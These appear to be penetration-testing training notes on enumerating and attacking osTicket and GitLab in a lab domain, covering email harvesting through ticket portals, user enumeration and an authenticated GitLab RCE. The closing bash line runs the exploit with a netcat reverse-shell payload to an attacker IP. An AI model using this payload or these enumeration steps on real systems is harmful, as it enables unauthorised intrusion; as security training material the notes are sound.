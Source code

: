 # **osTicket - Discovery & Enumeration**

![image.png](../../Images/CM_image0.png)

# **Attacking osTicket**
Suppose we find an exposed service such as a company's Slack server or GitLab, which requires a valid company email address to join. Many companies have a support email such as `support@inlanefreight.local`, and emails sent to this are available in online support portals that may range from Zendesk to an internal custom tool. Furthermore, a support portal may assign a temporary internal email address to a new ticket so users can quickly check its status.

If we come across a customer support portal during our assessment and can submit a new ticket, we may be able to obtain a valid company email address.

This is a modified version of osTicket as an example, but we can see that an email address was provided.

![image.png](../../Images/CM_image1.png)

Now, if we log in, we can see information about the ticket and ways to post a reply. If the company set up their helpdesk software to correlate ticket numbers with emails, then any email sent to the email we received when registering, `940288@inlanefreight.local`, would show up here. With this setup, if we can find an external portal such as a Wiki, chat service (Slack, Mattermost, Rocket.chat), or a Git repository such as GitLab or Bitbucket, we may be able to use this email
 to register an account and the help desk support portal to receive a sign-up confirmation email.

# **Gitlab - Discovery & Enumeration**

The only way to footprint the GitLab version number in use is by browsing to the `/help`
page when logged in. If the GitLab instance allows us to register an account, we can log in and browse to this page to confirm the version.

## GitLab Enum Users

Suppose the organization did not set up GitLab only to allow company emails to register or require an admin to approve a new account. In that case, we may be able to access additional data.

[GitLab Community Edition (CE) 13.10.3 - User Enumeration](https://www.exploit-db.com/exploits/49821)

We can also use the registration form to enumerate valid users (more on this in the next section). If we can make a list of valid users, we could attempt to guess weak passwords or possibly re-use credentials

On this particular instance of GitLab (and likely others), we can also enumerate emails. If we try to register with an email that has already been taken, we will get the error `1 error prohibited this user from being saved:  Email has already been taken`. As of the time of writing, this username enumeration technique works with the latest version of GitLab. 

## Browsing public projects

The first thing we should try is browsing to `/explore`. 

Public projects can be interesting because we may be able to use them to find out more about the company's infrastructure, find production code that we can find a bug in after a code review, hard-coded credentials, a script or configuration file containing credentials, or other secrets such as an SSH private key or API key

# **Attacking GitLab**

## **Username Enumeration**

[GitHub - dpgg101/GitLabUserEnum: GitLab User Enumeration](https://github.com/dpgg101/GitLabUserEnum)

**Note:** GitLab's defaults are set to 10 failed attempts resulting in an automatic unlock after 10 minutes.

## **Authenticated Remote Code Execution**

**Found in GitLab Community Edition version 13.10.2 and lower**

### Exploit

[Gitlab 13.10.2 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49951)

```bash
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '
```
